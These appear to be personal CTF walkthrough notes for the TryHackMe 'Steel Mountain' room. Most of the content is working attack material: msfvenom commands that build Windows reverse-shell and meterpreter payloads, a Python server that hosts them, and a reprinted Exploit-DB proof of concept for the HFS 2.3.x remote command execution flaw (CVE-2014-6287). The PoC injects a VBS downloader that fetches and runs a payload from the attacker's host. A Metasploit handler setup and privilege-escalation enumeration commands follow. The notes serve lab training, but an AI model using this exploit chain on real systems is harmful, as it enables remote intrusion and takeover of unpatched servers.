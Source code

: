 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

{% embed url="https://05t3.github.io/posts/Steel-Mountain/" %}

{% embed url="https://medium.com/@weifeng.c01/tryhackme-ctf-steel-mountain-1ac394c030dd" %}

{% embed url="https://blog.razrsec.uk/steel-mountain-walkthrough/" %}

### Initial access

...

#### Retrieving shell (without metasploit)

&#x20;_**Windows reverse TCP payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/shell/reverse_tcp LHOST=<attacker_addr> LPORT=8888 -f exe -o <output>.exe
```
{% endcode %}

_**Windows (Powershell) reverse TCP payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp LHOST=<attacker_addr> LPORT=8888 -o <output>.cmd
```
{% endcode %}

_**meterpreter payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.4.10.179 LPORT=8888 -o <output>.exe
```
{% endcode %}

{% code title="host web server to load payload file" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

_**Modified PoC**_

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% code title="39161.py" overflow="wrap" %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.4.10.179" #local IP address
	local_port = "8888" # Local Port number
	rev_shell_payload = "xxxx"

	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%3A9998%2F"+rev_shell_payload+"%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5C"+rev_shell_payload+"%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2

	# vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	vbs3 = "C%3A%5CUsers%5CPublic%5C"+rev_shell_payload

	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```
{% endcode %}

{% code overflow="wrap" %}
```sh
$ python2 39161.py <target> <port>
```
{% endcode %}

#### Catch shell/meterpreter&#x20;

```sh
msf6> use multi/handler
msf6> set payload xxxx
msf6> set lhost xxxx
msf6> set lport xxxx

msf6> run
```

### Privilege escalation

#### Enumeration

{% code overflow="wrap" %}
```powershell
PS> Get-Service *
PS> Get-CimInstance Win32_Service -Filter *
PS> sc qc <servicename>
```
{% endcode %}

```powershell
C:\> icacls C:\
C:\> icacls "C:\Program Files.exe"
C:\> icacls "C:\Program Files (x86)\IObit"
C:\> icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

